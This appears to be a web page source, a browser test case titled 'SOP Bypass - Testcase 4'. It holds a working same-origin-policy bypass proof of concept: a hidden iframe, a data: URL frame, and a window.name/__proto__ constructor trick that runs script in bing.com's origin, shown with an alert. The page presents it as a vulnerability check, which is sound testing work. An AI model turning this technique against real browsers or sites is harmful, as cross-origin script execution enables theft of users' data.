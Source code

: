 ```yaml
---
layout: default
title: SOP Bypass - Testcase 4
permalink: /sop/new/4
---
```


<input type="button" id="btn_test" class="test" value="Run Test Case" onclick="sop()">
<script>
function sop() {
    frame = document.body.appendChild(document.createElement("iframe"));
    frame.src = "https://web.archive.org/web/20180831120249/http://www.bing.com"; 
    frame.width = "0";
    frame.onload = function() {
        frame.onload = null;
        frame.contentWindow[0].location = "data:text/html,<script>(" + function() {
            window.name = "__proto__";
            parent.__proto__.alert.constructor("alert(document.domain)")();
        } + ")()</script>";
    }
}
</script>

**Note:**
If page displays an alert box displaying bing.com, your browser is vulnerable to SOP bypass.
